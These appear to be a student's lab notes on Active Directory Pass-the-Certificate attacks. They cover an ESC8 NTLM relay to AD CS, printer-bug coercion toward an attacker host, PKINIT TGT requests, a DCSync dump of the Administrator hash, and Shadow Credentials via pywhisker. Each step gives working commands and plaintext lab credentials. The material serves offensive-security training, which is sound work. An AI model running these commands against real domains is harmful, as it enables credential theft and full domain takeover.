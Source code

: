 - [PKINIT](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pkca/d0cf1763-3541-4008-a75f-a577fa5e8c5b), short for `Public Key Cryptography for Initial Authentication`, is an extension of the Kerberos protocol that **enables the use of public key cryptography during the initial authentication exchange.**
- `Pass-the-Certificate` refers to the **==technique of using X.509 certificates to successfully obtain `Ticket Granting Tickets (TGTs)`.==**
- This method is used primarily alongside [attacks against Active Directory Certificate Services (AD CS)](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf), as well as in [Shadow Credential](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c) attacks.

# AD CS NTLM Relay Attack (ESC8)
---
- `ESC8`—as described in the [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) paper—is an NTLM relay **attack targeting an ADCS HTTP endpoint.**
- ADCS supports **multiple enrollment methods, `including web enrollment`**, which by default occurs over HTTP.
- A certificate authority configured to allow **==web enrollment typically hosts the following application at `/CertSrv`/==**
- Attackers can use **==Impacket’s [ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) to listen for inbound connections and relay them to the web enrollment service using the following command:==**
	- `10.129.234.110` -> Second Machine IP
	- `impacket-ntlmrelayx -t http://10.129.234.110/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication`
- **Note:** The value passed to `--template` may be different in other environments. This is simply the certificate template which is used by Domain Controllers for authentication. This can be enumerated with tools like [certipy](https://github.com/ly4k/Certipy).

- Attackers **can either wait for victims to attempt authentication** against their machine randomly, **or they can actively coerce them into doing so**.
- One way to **==force machine accounts to authenticate against arbitrary hosts is by exploiting the [printer bug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py).==**
- This attack requires the targeted machine account to have the **==`Printer Spooler` service running.==**
- The command below forces **`10.129.234.109 (DC01)` to attempt authentication against `10.10.16.12 (attacker host)`:**
	- `python3 printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.234.109 10.10.16.12`
	- ![[Pasted image 20250705072951.png]]
- Referring back to `ntlmrelayx`, we can see from the output that the **authentication request was successfully relayed to the web enrollment application, and a certificate was issued for `DC01$`**
	- ![[Pasted image 20250705073016.png]]
- We can **now perform a `Pass-the-Certificate` attack to obtain a TGT as `DC01$`.** One way to do this is by using [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). First, let's clone the repository and install the dependencies:
	- `git clone https://github.com/dirkjanm/PKINITtools.git && cd PKINITtools`
	- `python3 -m venv .venv`
	- `source .venv/bin/activate`
	- `pip3 install -r requirements.txt`
- **Note:** If you encounter error stating `"Error detecting the version of libcrypto"`, it can be fixed by installing the [oscrypto](https://github.com/wbond/oscrypto) library:
  
	- `pip3 install -I git+https://github.com/wbond/oscrypto.git`
	- `python3 gettgtpkinit.py -cert-pfx ../krbrelayx/DC01\$.pfx -dc-ip 10.129.234.109 'inlanefreight.local/dc01$' /tmp/dc.ccache`
	- ![[Pasted image 20250705073216.png]]

- Once we successfully obtain a TGT, **we're back in familiar Pass-the-Ticket (PtT) territory.** 
- As the domain controller's machine account, **we can perform a DCSync attack to, for example, retrieve the NTLM hash of the domain administrator account:**
	- `export KRB5CCNAME=/tmp/dc.ccache`
	- `impacket-secretsdump -k -no-pass -dc-ip 10.129.234.109 -just-dc-user Administrator 'INLANEFREIGHT.LOCAL/DC01$'@DC01.INLANEFREIGHT.LOCAL`

# Shadow Credentials (msDS-KeyCredentialLink)
---
- [Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) refers to an Active Directory attack that abuses the **[msDS-KeyCredentialLink](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c) attribute of a victim user.** This attribute **==stores public keys that can be used for authentication via PKINIT.==** 
- In BloodHound, the `AddKeyCredentialLink` edge indicates that one user **has write permissions over another user's `msDS-KeyCredentialLink`** attribute, allowing them to take control of that user.
	- ![[Pasted image 20250705073345.png]]
- We can use **[pywhisker](https://github.com/ShutdownRepo/pywhisker) to perform this attack from a Linux system.** 
- The command below generates an `X.509 certificate` and writes the `public key` to the victim user's `msDS-KeyCredentialLink` attribute:
	- `pywhisker --dc-ip 10.129.234.109 -d INLANEFREIGHT.LOCAL -u wwhite -p 'package5shores_topher1' --target jpinkman --action add`
	- ![[Pasted image 20250705073423.png]]
- With the TGT obtained, we may once again `pass the ticket`:
	- `export KRB5CCNAME=/tmp/jpinkman.ccache`
	- `klist`
- In this case, we discovered that the victim user is a member of the `Remote Management Users` group, which permits them to connect to the machine via `WinRM`. As demonstrated in the previous section, we can use `Evil-WinRM` to connect using Kerberos (note: ensure that `krb5.conf` is properly configured):
	- `evil-winrm -i dc01.inlanefreight.local -r inlanefreight.local`

	![[Pasted image 20250705073459.png]]